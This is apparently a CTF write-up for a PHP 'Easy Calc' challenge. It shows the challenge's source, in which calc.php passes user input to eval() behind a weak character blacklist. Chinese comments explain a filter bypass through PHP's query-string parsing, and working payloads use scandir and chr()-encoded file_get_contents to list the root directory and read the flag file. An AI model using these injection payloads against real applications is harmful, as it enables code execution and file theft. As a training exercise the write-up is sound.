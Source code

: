 #Easy Calc
    $('#calc').submit(function(){
        $.ajax({
            url:"calc.php?num="+encodeURIComponent($("#content").val()),
            type:'GET',
            success:function(data){
                $("#result").html(`<div class="alert alert-success">
            <strong>答案:</strong>${data}
            </div>`);
            },
            error:function(){
                alert("这啥?算不来!");
            }
        })
        return false;
    })
#calc.php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?> 
#首先可以看到过滤掉了大量字符

#可以利用PHP字符串解析特性

#将传入的参数num前加一个空格

#calc.pnp? num=1;var_dump(scandir(chr(47)))
#calc.php num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))